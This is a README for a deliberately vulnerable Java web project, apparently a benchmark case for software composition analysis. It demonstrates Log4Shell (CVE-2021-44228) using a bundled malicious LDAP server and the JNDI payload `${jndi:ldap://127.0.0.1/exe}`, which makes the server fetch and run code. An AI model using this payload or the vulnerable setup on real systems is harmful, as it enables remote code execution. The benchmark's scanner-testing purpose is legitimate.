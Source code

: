 ## log4shell true positive

This is a simple web project with a log4shell vulnerability. 
The project defines a simple `scabench.HelloWorldService` get service returning a plain text string `hello world`.
The service does not expect parameters, and if parameters are encountered, an error 
is logged. 

The vulnerable dependency is [org.apache.logging.log4j:log4j-core:2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1), the vulnerability is [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). 


### Demonstrating the Vulnerability using a Test 

This requires unix or macos. It is easy to port this project to windowsm, 

A unit test is provided to demonstrate the vulnerability. The test requires a ldap server providing vulnerable code, the respective executable is provided by the project, it is defined in a separate project [https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept](https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept) based on [https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept](https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept).
The test fixture will handle startup and shutdown of the ldap server.

The test will create a file `foo` based on a command encoded embedded in the code of the ldap server the log4j connects to
(`touch foo`). This server can be controlled by an attacker. 

To run the test build the project with `mvn test`.

### Demonstrating running the Application

1. start the embedded web server: `mvn jetty:run`
2. start the included the ldap server: `java -jar dodgy-ldap-server.jar` (the vulnerable copde will download Java code from this server)
3. point the browser to `http://localhost:8080/`, this site contains a pre-populated form with a malicious payload `${jndi:ldap://127.0.0.1/exe}`
4. submit this form
5. this will create a file `foo` on the server

### Running Software Composition Analyses

There are several sh scripts to run different analyses, result resports can be found in `scan-results`.

### Generating the SBOM

The `pom.xml` has a plugin to generate a [SBOM](https://www.cisa.gov/sbom) in [CycloneDX](https://cyclonedx.org/) format. 
To do this, run `mvn cyclonedx:makePackageBom`, the SBOM can be found in 
`target/` in `json` and `xml` format.


